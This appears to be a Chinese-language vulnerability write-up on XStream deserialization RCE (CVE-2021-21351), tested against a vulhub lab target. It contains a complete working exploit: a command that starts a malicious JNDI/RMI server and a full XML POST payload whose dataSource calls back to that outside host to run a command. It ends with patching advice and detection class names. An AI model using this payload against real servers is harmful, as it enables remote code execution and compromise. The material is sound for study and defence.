



# 漏洞名称：XStream 反序列化命令执行漏洞


---

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](http://www.cnnvd.org.cn/index.html)

XStream是Java类库，用来将对象序列化成XML （JSON）或反序列化为对象。XStream是自由软件，可以在BSD许可证的许可下分发。它是一种OXMapping 技术，是用来处理XML文件序列化的框架在将javaBean序列化，或将XML文件反序列化的时候，不需要其它辅助类和映射文件，使得XML序列化不再繁琐。

XStream 在解析XML文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.15 及之前版本黑名单存在缺陷，攻击者可利用`javax.naming.ldap.Rdn$RdnEntry`及`javax.sql.rowset.BaseRowSet`构造JNDI注入，进而执行任意命令。

---

### 漏洞危害

该漏洞允许恶意第三方在缺少输入验证的情况下而执行恶意代码。

---

### 影响范围

Xstream<=1.4.15

---

## 漏洞原理


------

## 漏洞利用

### 靶机环境

vulhub/xstream/CVE-2021-21351

---

### 利用方式

由于目标环境Java版本高于8u191，故我们需要借助[这篇文章](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)中给出的方法，使用`org.apache.naming.factory.BeanFactory`加EL表达式注入的方式来执行任意命令。

使用[这个工具](https://github.com/welk1n/JNDI-Injection-Exploit/)启动恶意JNDI服务器：

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/success" -A 10.182.234.169
```



使用上图中基于SpringBoot利用链的RMI地址作为`<dataSource>`的值，构造POC如下：

```
POST / HTTP/1.1
Host: 192.168.1.189:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3185

<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://10.182.234.169:1099/schsit</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

**PS** 在实战中，如果目标Java版本较低，POC需要做修改，将其中的`<__overrideDefaultParser>false</__overrideDefaultParser>`改成`<__useServicesMechanism>false</__useServicesMechanism>`即可。

发送poc后能够看到靶机来请求了恶意的rmi



进入目标容器内，可见``touch /tmp/success``已成功执行：



---


## 威胁防护建议

### 用户处置建议

1. 配置XStream的安全框架为允许的类型使用白名单

2. 注册自己的转换器，以防止解组当前已知的Java运行时关键类型

3. 升级XStream到最新版本

---

### 安全产品检测建议

检测`javax.naming.ldap.Rdn_-RdnEntry`，`com.sun.org.apache.xpath.internal.objects.XRTreeFrag`, `com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM`, `com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces`


